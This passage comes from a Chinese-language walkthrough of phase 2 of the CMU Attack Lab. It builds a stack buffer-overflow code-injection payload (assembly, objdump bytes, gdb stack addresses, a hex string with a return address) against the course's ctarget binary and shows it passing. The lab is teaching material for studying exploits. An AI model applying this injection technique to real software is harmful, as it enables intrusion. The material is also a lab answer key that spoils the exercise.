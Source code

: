 汇编伪代码:
```0
movq $0x59b997fa , %rdi # 把val的值放入%rdi内
pushq $0x4017ec # 将touch2的地址压入栈
retq
```
输入命令：gcc -c touch2.s生成机器码文件touch2.o   
输入命令：objdump -d touch2.o > touch2.txt进行反汇编。

```0
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```
现在只需要找到getbuf()栈中用于字符串的首地址就好了：  
在getbuf的汇编代码最后一行:retq 处打断点
```0
(gdb) b *getbuf+21
Breakpoint 1 at 0x4017bd: file buf.c, line 16.
(gdb) p $rsp
$1 = (void *) 0x5561dca0
# 查看一下 栈中存放字符串的首地址
(gdb) p $rsp-0x28
$2 = (void *) 0x5561dc78
```
那么phase2的注入代码就应为：

```0
48 c7 c7 fa 97 b9 59 # movq $0x59b997fa , %rdi
68 ec 17 40 00 # pushq $0x4017ec
c3 # ret
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00 # 栈的首地址
```
将字符串保存为touch2.txt，并执行`./hex2raw < touch2.txt | ./ctarget -q`
得到返回结果

```0
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 78 DC 61 55 00 00 00 00 
```
## Phase3 - CTarget
> 第3个实验同样是使用字符串作为参数，进行代码注入攻击。
